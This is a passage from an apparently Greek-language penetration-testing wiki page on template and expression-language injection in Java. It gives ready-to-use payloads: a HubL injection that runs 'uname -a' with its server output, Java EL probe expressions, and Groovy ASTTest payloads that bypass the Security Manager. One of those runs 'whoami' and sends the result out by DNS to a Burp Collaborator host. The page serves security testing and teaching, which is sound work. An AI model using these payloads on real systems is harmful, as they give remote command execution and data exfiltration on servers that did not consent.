 ```java
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
**Περισσότερες πληροφορίες**

* [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)

### Expression Language - EL (Java)

* `${"aaaa"}` - "aaaa"
* `${99999+1}` - 100000.
* `#{7*7}` - 49
* `${{7*7}}` - 49
* `${{request}}, ${{session}}, {{faceContext}}`

Η Expression Language (EL) είναι μια θεμελιώδης δυνατότητα που διευκολύνει την αλληλεπίδραση μεταξύ της παρουσίασης (όπως οι ιστοσελίδες) και της λογικής εφαρμογής (όπως τα managed beans) στο JavaEE. Χρησιμοποιείται εκτενώς σε πολλές τεχνολογίες JavaEE για να απλοποιήσει αυτή την επικοινωνία. Οι κύριες τεχνολογίες JavaEE που χρησιμοποιούν EL περιλαμβάνουν:

* **JavaServer Faces (JSF)**: Χρησιμοποιεί EL για να συνδέσει τα στοιχεία στις σελίδες JSF με τα αντίστοιχα δεδομένα και ενέργειες στο backend.
* **JavaServer Pages (JSP)**: Η EL χρησιμοποιείται σε JSP για την πρόσβαση και την επεξεργασία δεδομένων εντός των σελίδων JSP, διευκολύνοντας τη σύνδεση των στοιχείων της σελίδας με τα δεδομένα της εφαρμογής.
* **Contexts and Dependency Injection for Java EE (CDI)**: Η EL ενσωματώνεται με το CDI για να επιτρέπει την απρόσκοπτη αλληλεπίδραση μεταξύ της διαδικτυακής διάταξης και των managed beans, εξασφαλίζοντας μια πιο συνεκτική δομή εφαρμογής.

Δείτε την παρακάτω σελίδα για να μάθετε περισσότερα σχετικά με την **εκμετάλλευση των ερμηνευτών EL**:

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Groovy (Java)

Οι παρακάτω παρακάμψεις του Security Manager προήλθαν από αυτήν την [**αναφορά**](https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/).
```java
//Basic Payload
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "ping cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net "
assert java.lang.Runtime.getRuntime().exec(cmd.split(" "))
})
def x

//Payload to get output
import groovy.*;
@groovy.transform.ASTTest(value={
cmd = "whoami";
out = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmd.split(" ")).getInputStream()).useDelimiter("\\A").next()
cmd2 = "ping " + out.replaceAll("[^a-zA-Z0-9]","") + ".cq6qwx76mos92gp9eo7746dmgdm5au.burpcollaborator.net";
java.lang.Runtime.getRuntime().exec(cmd2.split(" "))
})
def x

//Other payloads
```